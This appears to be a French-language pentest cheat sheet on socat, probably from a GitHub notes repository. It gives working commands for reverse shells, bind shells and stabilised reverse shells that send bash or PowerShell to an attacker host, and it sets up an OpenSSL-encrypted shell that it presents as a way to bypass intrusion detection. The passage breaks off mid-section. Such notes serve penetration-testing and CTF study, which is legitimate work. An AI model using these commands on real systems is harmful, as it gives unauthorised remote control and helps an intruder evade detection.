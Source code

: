 
## __Reverse shell__

[Binaire précompilé de socat](Binaries##__Linux__###x86-64####Socat) 
Pour setup un reverse shell avec socat c'est légèrement plus compliqué qu'avec netcat.

#### 1- Listener -- Notre machine

Sur notre machine il faut effectuer la commande :

```shell
user@ip: ~$ socat TCP-L:1345 -
```

Cette commande est équivalente à faire **`nc -vnlp 1234`**.

#### 2- Connection -- Machine cible

Sur la machine cible, on va effectuer la commande :

1) Sur une machine **windows**

```shell
PS C:\Users\user> socat TCP:<NOTRE-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
```

2) Sur une machine **linux**

```shell
user@raspberrypi: ~$ socat TCP:<NOTRE-IP>:<LOCAL-PORT> EXEC:"bash -li"
```


## __Bind shell__

#### 1- Listener -- Machine cible

1) Sur la machine cible sous **Linux** :

```shell
user@raspberrypi: ~$ socat TCP-L:<TARGET-PORT> EXEC:"bash -li"
```

2) Sur une machine **Windows**

```shell
PS C:\Users\user> socat TCP-L:<PORT> EXEC:powershell.exe,pipes
```

#### 2- Connection -- Notre machine

```shell
user@ip: ~$ socat TCP:<TARGET-IP>:<TARGET-PORT> -
```


## __Stable Reverse shell__

Pour setup un reverse shell entièrement stable, on va

#### 1- Listener -- Notre machine

```shell
user@ip: ~$ socat TCP-L:<port> FILE:`tty`,raw,echo=0
```

C'est l'équivalent de faire `stty raw -echo; fg`.

#### 2- Connection -- Machine cible

```shell
user@raspberrypi: ~$ socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

| Argument   | But                                                                                                                       |
| ---------- | ------------------------------------------------------------------------------------------------------------------------- |
| **pty**    | alloue un pseudoterminal sur la cible -- partie du processus de stabilisation                                             |
| **stderr** | s'assure que tous les messages d'erreur sont affichés dans le shell                                                       |
| **sigint** | transmet toutes les commandes Ctrl + C au sous-processus, ce qui nous permet de tuer les commandes à l'intérieur du shell |
| **setsid** | crée le processus dans une nouvelle session                                                                               |
| **sane**   |  stabilise le terminal en essayant de le "normaliser".                                                                                                                          |


## __Encrypted shell__

Les **shells chiffré** sont très utile pour **bypass les IDS** car ils ne peuvent **pas être lue** à part si l'on a la **clé de déchiffrement**.

La **syntaxe** pour les shells encrypté n'est pas différente à l'exception que le mot clé **TCP** est remplacé par **OPENSSL**.

#### 1- Générer le certificat -- Notre machine

```shell
user@ip: ~$ openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```

Crée une **clé RSA de 2048 bits** dans un fichier **shell.key** et un **certificat correspondant** valide pendant 362 jours dans **shell.crt**.

#### 2- Fusion des clé et certificats -- Notre machine

```shell
user@ip: ~$ cat shell.key shell.crt > shell.pem
```

Fusion des 2 fichiers dans un fichier **shell.pem**.

#### 3- Listener -- Notre machine

```shell
user@ip: ~$ socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
```

**verify=0** indique qu'on ne veut **pas valider** que notre certificat a été signé par une **autorité reconnue**.

#### 4è-